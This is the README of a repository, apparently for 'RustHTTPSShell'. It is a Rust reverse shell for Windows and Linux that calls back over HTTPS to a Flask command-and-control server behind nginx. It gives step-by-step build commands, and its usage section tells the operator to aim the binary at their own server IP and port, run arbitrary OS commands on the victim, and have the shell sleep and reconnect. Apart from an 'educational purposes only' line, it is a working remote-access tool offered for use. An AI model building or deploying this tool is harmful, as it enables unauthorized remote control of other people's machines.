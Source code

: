 # RustHTTPSShell

Tested docker build in kali.

FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY!

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
mv app.py controlServer/
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```

Setup:
----
1. Run docker build in directory with Dockerfile:
```
docker build .
```
2. Run container (use -v flag to mount directories as desired):
```
docker run -di [imageID]
```
3. Enter container:
```
docker exec -ti [containerID] /bin/bash
```
4. From within container, Clone repo:
```
git clone https://github.com/Business1sg00d/RustHTTPSShell.git /opt/RustHTTPSShell
cd /opt/RustHTTPSShell
```
5. From within container, add windows support:
```
rustup target add x86_64-pc-windows-gnu
```
6. If you want to change the sleep time in seconds, go into the .rs files and change the following parameters:
```
alarmClock::standBy(int)
```
Replace the "int" with whatever time you want. This will tell the shell to sleep for those seconds. Command explanation further below.

Building from within container:
-----
When building for windows use:
```
cargo build --target x86_64-pc-windows-gnu --bin main_windows
```

For linux use:
```
cargo build
```

Binaries are in "target" directory from within project directory

Usage:
--
For both Windows and Linux version:
```
.\binary.exe [Your_Server_IP] [Your_Server_port}
./binary [Your_Server_IP] [Your_Server_port}
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the shell to "sleep". After the time expires, the shell will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.
